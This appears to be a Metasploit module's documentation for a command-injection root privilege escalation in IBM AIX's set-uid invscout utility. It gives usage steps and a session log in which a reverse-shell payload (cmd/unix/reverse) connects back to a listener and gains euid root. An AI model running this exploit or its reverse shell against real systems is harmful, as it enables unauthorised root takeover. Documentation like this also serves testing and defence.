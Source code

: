 ## Vulnerable Application

This module exploits a command injection vulnerability in IBM AIX
invscout set-uid root utility present in AIX 7.2 and earlier.

The undocumented -rpm argument can be used to install an RPM file;
and the undocumented -o argument passes arguments to the rpm utility
without validation, leading to command injection with effective-uid
root privileges.

This module has been tested successfully on AIX 7.2.

## Verification Steps

1. `msfconsole`
1. Get a session
1. `use exploit/aix/local/invscout_rpm_priv_esc`
1. `set session <session>`
1. `run`

## Options

### INVSCOUT_PATH

Path to invscout executable (default: `/usr/sbin/invscout`)

## Scenarios

### IBM AIX 7.2

```
msf > use exploit/aix/local/invscout_rpm_priv_esc
msf exploit(aix/local/invscout_rpm_priv_esc) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf exploit(aix/local/invscout_rpm_priv_esc) > set session 1
session => 1
msf exploit(aix/local/invscout_rpm_priv_esc) > run

[*] Started reverse TCP double handler on 192.168.200.130:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Output: uid=204(user) gid=1(staff) euid=0(root)
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 9BZSm5LKtW9OMKHg;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "9BZSm5LKtW9OMKHg\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 2 opened (192.168.200.130:4444 -> 192.168.200.204:49036) at 2023-05-13 18:29:23 -0400

id
uid=204(user) gid=1(staff) euid=0(root)
uname -a
AIX localhost 2 7 000000000000
```
